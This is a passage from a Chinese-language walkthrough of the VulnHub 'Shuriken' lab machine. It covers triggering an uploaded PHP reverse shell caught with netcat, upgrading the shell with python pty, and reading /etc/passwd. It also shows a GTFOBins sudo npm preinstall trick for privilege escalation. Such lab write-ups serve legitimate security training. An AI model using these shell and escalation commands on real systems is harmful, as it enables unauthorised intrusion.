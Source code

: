 ![](D:\stu\vulnhub\shuriken靶场\pic-1\26.jpg)

记住执行后的一串白色字符，给出是否上传成功，上传的路径以及文件名等

```shell
creating file{"success":"yes","file_name":"17350579738c4f6b","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}                                                                         
```

这时候通过给出的信息，访问文件`http://broadcast.shuriken.local/actions/CB_BEATS_UPLOAD_DIR/17350579738c4f6b.php`

不过先在`kali`中开启监听`nc -lvvp 1234`，这个1234端口是自己设置的，就是上面说到的`kali`自带的反弹脚本

![](D:\stu\vulnhub\shuriken靶场\pic-1\27.jpg)

然后使用命令`dpkg`测试有无安装`python`，测试有，使用`python`获取交互式界面

```
dpkg -l | grep python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 靶机内信息收集

首先查看有哪些用户

```shell
cat /etc/passwd | grep "/bin/bash"
ls /home
```

发现只有一个用户`server-management`

使用`find`寻找具有SUID权限文件，发现有`sudo`，测试发现`sudo -l`不需要密码验证

![](D:\stu\vulnhub\shuriken靶场\pic-1\28.jpg)

# 提权

## 提权至普通用户

如果不知道怎么使用，可以借助网址`gtfobins.github.io`搜索

![](D:\stu\vulnhub\shuriken靶场\pic-1\29.jpg)

用法如下

```shell
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u server-management npm -C $TF --unsafe-perm i
```

但是这里直接这样使用，是提权到`root`的，所以需要改动
